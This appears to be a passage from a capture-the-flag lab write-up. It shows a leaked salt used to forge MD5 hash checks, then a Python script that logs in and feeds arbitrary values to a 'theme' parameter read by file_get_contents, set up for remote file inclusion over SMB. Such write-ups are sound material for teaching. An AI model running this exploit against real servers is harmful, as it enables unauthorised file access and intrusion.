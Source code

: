 Doing same hashing technique this tile return php traceback error.
```bash
❯ python -c "from hashlib import md5;print(md5(('hie0shah6ooNoim'+'test').encode('utf-8')).hexdigest())"
d9f7afc366cf839391aac8d0d333c7c5
```

![](screenshots/theme-get-content.png)

this time server is doning `file_get_contents` on `theme` parameter.

## SMB connect via remote file inclusion

Create a python script to make life easy
```py
from hashlib import md5
from sys import argv
from urllib.parse import quote_plus
import requests as r

s = r.session()
url = 'http://10.10.10.231/licenses/'
data = {"username": "vikki.solomon@throwaway.mail", "password": "password1"}
s.post(url, data=data)  # login
theme_param = argv[1]
hash = md5(b"hie0shah6ooNoim" + theme_param.encode('utf-8')).hexdigest()
rspn = s.get(f'{url}licenses.php?theme={quote_plus(theme_param)}&h={hash}')
head, sep, tail = rspn.text.partition('<body>')
print(head)

s.close()
```
